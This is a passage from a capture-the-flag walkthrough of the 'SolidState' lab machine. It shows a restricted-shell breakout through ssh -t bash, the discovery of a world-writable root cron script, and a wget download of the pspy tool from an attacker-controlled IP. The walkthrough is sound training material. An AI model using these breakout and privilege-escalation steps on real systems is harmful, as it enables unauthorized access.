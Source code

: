 ### Shell Breakout

After executing some commands it becomes evident that we dropped into a restricted shell:

```s
mindy@solidstate:~$ id
-rbash: id: command not found
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
```

There are a few breakout methods, but the easiest way is to use the `-t` to force a `/bin/bash` shell.

```s
$ ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51s password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

### root

Poking around the box, we'll quickly find a file `/opt/tmp.py`.

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Looking at the permissions:

```s
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug 22  2017 .
drwxr-xr-x 22 root root 4.0K May 27  2022 ..
drwxr-xr-x 11 root root 4.0K Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

This file owned by root but is world writeable. I have a hunch that root is running a cronjob and run this every so often. There are a couple of ways we could verify this: First, we can write a file into `/tmp` and wait for the file to be deleted. Another way is to drop a [Pspy](https://github.com/DominicBreuker/pspy) listener onto the machine. In an actual engagement, we'll probably go with the former. However, I've never used Pspy befores so I'll go with that option. We'll first need to drop the binary onto the machine using `wget`:

```s
$ wget http://10.10.14.7:8000/pspy32
$ chmod +x pspy32
$ ./pspy32
...<snip>...
2023/08/20 14:18:01 CMD: UID=0     PID=1978   | /usr/sbin/CRON -f 
2023/08/20 14:18:01 CMD: UID=0     PID=1979   | /usr/sbin/CRON -f 
2023/08/20 14:18:01 CMD: UID=0     PID=1980   | /bin/sh -c python /opt/tmp.py 
2023/08/20 14:18:01 CMD: UID=0     PID=1981   | sh -c rm -r /tmp/*
...<snip>...
```
